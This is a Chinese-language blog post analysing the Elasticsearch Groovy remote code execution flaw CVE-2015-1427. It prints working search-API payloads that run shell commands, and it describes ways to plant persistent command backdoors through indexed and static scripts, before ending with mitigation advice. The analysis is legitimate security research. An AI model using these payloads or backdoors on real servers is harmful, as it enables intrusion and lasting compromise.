```yaml
---
layout: post
title: "ElasticSearch 远程代码执行漏洞分析（CVE-2015-1427）&amp;高级利用方法"
date: 2015-03-06 19:30:55 +0800
comments: true
categories: "技术"
tags: [ElasticSearch,Expression Language]
---
```


### 0x00 漏洞概述

我第一次知道CVE-2015-1427这个漏洞是在2月13日（春节放假前一天），但是当时想着过年，而且觉得应该是Groovy自身的问题，就也没太在意。知道前两天兰少（lupin）问我有没有看这个漏洞，说他找到了绕过了沙盒的方法，才跑去看。

我跟lupin玩这个洞的思路不太一样，而且漏洞原理在他的文章里已经说的很清楚了，我这篇文章主要侧重这个漏洞利用的各种玩法。

<!-- more -->

### 0x01 漏洞原理

漏洞原因很简单，由于沙盒代码黑名单中的Java危险方法不全，从而导致恶意用户仍可以使用反射的方法来执行Java代码。这就完了？当然不是！由于Elasticsearch开发团队没有完全认知Groovy的强大，以为仅仅防止用户调用Java反射就可以免于被攻击，这真是太好笑了，我们来看下Groovy对自己的描述：

![groovy](/assets/images/2015-03/groovy.png)

没错！Groovy是一款开发语言，这意味着我们完全可以在不使用Java的前提下实现代码执行。如果仅仅是沙盒的问题，那么修补黑白名单到攻击者没办法绕过沙盒使用Java反射就好了，但是一种语言要怎么靠黑白名单来限制它的绝大部分功能？所以没有把Groovy当做一种编程语言是这问题的真正原因。

### 0x02 漏洞利用

漏洞利用其实也很简单，我们只需要参照官方提供的script使用说明来执行脚本就可以了。[官方文档](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html)提供了两个方法让我们直接执行脚本代码。

我们先来看第一种方式——直接执行脚本，这种方式也就是目前大家都在使用的方式。使用起来也很简单，直接向/_search这个URL提供如下POST内容：

```groovy
{"script_fields": {"my_field": {"script": "def command=\"netstat -an\";def res=command.execute().text;res","lang":"groovy"}}}
```

效果如下图所示：

![script](/assets/images/2015-03/script.png)

官方文档除了直接执行脚本，还提供了一种预先存储脚本用于以后执行的方式——脚本索引，这种方法使用起来比较繁琐，下面我们先来看官方提供的示例：

```
//建立脚本索引
curl -XPOST localhost:9200/_scripts/groovy/indexedCalculateScore -d '{
     "script": "log(_score * 2) + my_modifier"
}'
//使用脚本索引，并执行脚本索引中的代码
curl -XPOST localhost:9200/_search -d '{
  "query": {
    "function_score": {
      "query": {
        "match": {
          "body": "foo"
        }
      },
      "functions": [
        {
          "script_score": {
            "script_id": "indexedCalculateScore",
            "lang" : "groovy",
            "params": {
              "my_modifier": 8
            }
          }
        }
      ]
    }
  }
}'
```

下面我们来看实际操作，首先是建立脚本索引：

```json
{
     "script": "def command=\"netstat -an\";def res=command.execute().text;res"
}
```

然后是执行刚刚建立的脚本索引，由于官方给的示例中不可以返回字符串，所以这里我修改了POST提交的内容。

```json
{
    "query" : {
       "match_all":{
        }
    },
    "script_fields" : {
        "test1" : {
            "script_id" : "indexedCalculateScore",
            "lang":"groovy"
        }
    }
}
```

这种方法相比较直接执行脚本多了一个存储的步骤，但是却不失为一种留后门的好方法。如果我们这样建立一条脚本索引：

```json
{
     "script": "def res=command.execute().text;res"
}
```

然后这样执行它：

```json
{
    "query" : {
       "match_all":{
        }
    },
    "script_fields" : {
        "test1" : {
            "script_id" : "indexedCalculateScore",
            "lang":"groovy",
            "params":{
                 "command":"netstat -an"
             }
        }
    }
}
```

完美的一个shell命令后门就完成了，效果如下图所示：

![indexed-script](/assets/images/2015-03/indexed-script.png)

不过使用脚本索引建立的后门有一个问题，就是需要在动态脚本开启的状态下。而官方提供给我们的最后一个调用脚本的方式——调用静态脚本，刚刚好可以帮助我们维持后门的持久性。

使用方法如下：在config目录下建立一个名为scripts的目录，把脚本文件放进去，然后用script_file替换上面的script_id字段就好了。这里做一个简单的例子，在scripts里放上我们刚才的的那个shell后门的代码，并命名为vul.groovy，然后POST如下数据进行搜索：

```json
{
    "script_fields": {
        "my_field": {
            "file": "vul",
            "params": {
                  "command":"netstat -an"
            }
        }
    }
}
```

如果你足够仔细的话，可能会发现上面的代码中我使用的file而不是官方示例的script_file，因为我测试环境是1.3.5和1.4.10，而官方所提供的示例应该是针对MVEL表达式时代的静态表达式使用方法，所以有些时候不看代码是无法发现真相的→_→。

### 0x03 思维壁垒

在和lupin一开始讨论这个漏洞的时候，发现我们思考的方式完全不一样。他在跟我说怎么怎么绕过沙盒，而我却不断的问他沙盒在哪里？为什么我没有感觉到沙盒的存在？从lupin[这篇文章](http://drops.wooyun.org/papers/5107)描述的细节和下面官方对这个漏洞描述的内容以及官方对于漏洞的后期修复，再到这两天的全民反射来看，大家明显是都被带到沟里去了，把一个好好的代码执行漏洞玩成了命令执行漏洞。

> The vulnerabilities allow an attacker to construct Groovy scripts that escape the sandbox and execute shell commands as the user running the Elasticsearch Java VM.

如果让我用一句话来评论目前的大家使用的PoC的话，“用C的方式来利用一个PHP代码执行”，这句话再合适不过了。我在[《一种新的攻击方法——Java-Web-Expression-Language-Injection》][]中提到的JELI的这种漏洞形式（或者说攻击方法），是由于开发者对于Java上层建筑的表达式认知度不够而导致漏洞的出现。Struts2没有想到Ognl可以执行Java代码，Elasticsearch同样没有想到Groovy可以实现任意Java功能。

所以在这里我觉得有必要提醒大家一下，小心思维壁垒的出现。

### 0x04 漏洞总结

#### 漏洞小结

1. 影响范围个人评价为“高”，ElasticSearch在大数据时代得到广泛的使用，而且此漏洞覆盖十个左右的版本，所以影响范围还是很广的。

2. 危害性个人评价为“极高”，此漏洞值需要使用默认的动态脚本配置便可被利用，攻击者可以利用这个漏洞getshell。


#### 防护方案

关闭groovy沙盒以已停止动态脚本的使用：

```yml
script.groovy.sandbox.enabled: false
```

官方已经在最新版本中修复此问题，最新版下载链接为：
http://www.elasticsearch.org/overview/elkdownloads/



[《一种新的攻击方法——Java-Web-Expression-Language-Injection》]:http://drops.wooyun.org/tips/2494
